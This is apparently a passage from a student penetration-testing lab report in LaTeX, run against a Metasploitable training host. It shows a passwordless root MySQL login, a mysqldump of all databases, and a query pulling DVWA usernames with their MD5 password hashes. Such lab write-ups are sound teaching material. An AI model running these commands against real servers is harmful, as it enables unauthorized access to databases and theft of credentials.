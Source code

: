 \documentclass{article}
\begin{document}
To my surprise I was able to connect to the mysql server as the root mysql
account. This gave me access to all databases on the database server.

Next, I used mysqldump to get a dump of all the databases on this host for offline analysis.

\begin{lstlisting}
root@bt-was:~# mysqldump -uroot -h metasploitable.sait230.ca --all-databases > all-databases.sql
\end{lstlisting}

With full root access and a mysql shell I can now insert rows into any table in any database. 
I can update any record I like and I can read all information in all tables.

\begin{lstlisting}[language=SQL]
mysql> use dvwa
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
2 rows in set (0.00 sec)

mysql> desc users;
+------------+-------------+------+-----+---------+-------+
| Field      | Type        | Null | Key | Default | Extra |
+------------+-------------+------+-----+---------+-------+
| user_id    | int(6)      | NO   | PRI | 0       |       |
| first_name | varchar(15) | YES  |     | NULL    |       |
| last_name  | varchar(15) | YES  |     | NULL    |       |
| user       | varchar(15) | YES  |     | NULL    |       |
| password   | varchar(32) | YES  |     | NULL    |       |
| avatar     | varchar(70) | YES  |     | NULL    |       |
+------------+-------------+------+-----+---------+-------+
6 rows in set (0.00 sec)

mysql> select user, password from users;
+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |
| NULL    | NULL                             |
+---------+----------------------------------+
6 rows in set (0.01 sec)
\end{lstlisting}

In the nikto scan we saw that the metasploitable box was using a defaul Apache
Tomcat installation:
\end{document}

